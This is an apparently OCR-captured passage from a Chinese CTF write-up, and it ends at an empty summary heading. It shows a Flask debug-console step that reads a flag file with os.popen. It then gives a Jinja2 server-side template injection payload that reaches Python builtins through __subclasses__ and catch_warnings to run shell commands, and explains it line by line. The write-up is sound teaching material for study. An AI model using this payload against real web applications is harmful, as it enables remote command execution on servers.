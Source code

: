 ![image-20240528220825259](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282208475.png)

输入pin码，打开debug模式

输入代码，得到flag

```
import os
os.popen('cat /this_is_the_flag.txt').read()

```

![image-20240528220508132](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282205269.png)





###  %的解释

在Jinja2模板中，`%`符号用于包围模板语句，通常用于控制结构（如循环和条件判断）。Jinja2模板是一种强大的模板引擎，允许你在模板中嵌入Python代码和表达式，以动态生成内容。

#### Jinja2模板中的特殊符号

```
{% ... %}: 用于包围控制结构语句，比如条件判断、循环等。

- 例如： `{% for item in list %}...{% endfor %}` 表示一个循环结构。

{{ ... }}: 用于包围表达式。这些表达式会被计算并输出结果。

- 例如： `{{ variable }}` 会输出`variable`变量的值。

{# ... #}: 用于包围注释。注释内容不会出现在渲染后的输出中。

- 例如： `{# This is a comment #}` 是一个注释。
```



1. #### 示例解释

```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__=='catch_warnings' %}
    {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
  {% endif %}
{% endfor %}
```

#### 分析

记得把*删了

1. ```
   1. **{% for c in [].\**class\**.\**base\**.\**subclasses\**() %}**:
      - 这是一个for循环，遍历所有的类。
      - `[].__class__.__base__.__subclasses__()` 生成一个包含所有类的列表。
   2. **{% if c.\**name\**=='catch_warnings' %}**:
      - 这是一个条件判断，检查当前遍历到的类是否名为`catch_warnings`。
   3. **{{ c.\**init\**.\**globals\**['\**builtins\**'].eval("\**import\**('os').popen('ls /').read()")}}**:
      - 这是一个表达式，利用Jinja2的双大括号`{{ ... }}`输出内容。
      - `c.__init__.__globals__['__builtins__']` 访问`catch_warnings`类的`__init__`方法的全局变量中的`__builtins__`字典。
      - `.eval("__import__('os').popen('ls /').read()")` 使用`eval`函数执行恶意代码，这里执行了系统命令`ls /`，列出根目录下的文件和文件夹。
   ```
   
   

#### 总结

   ```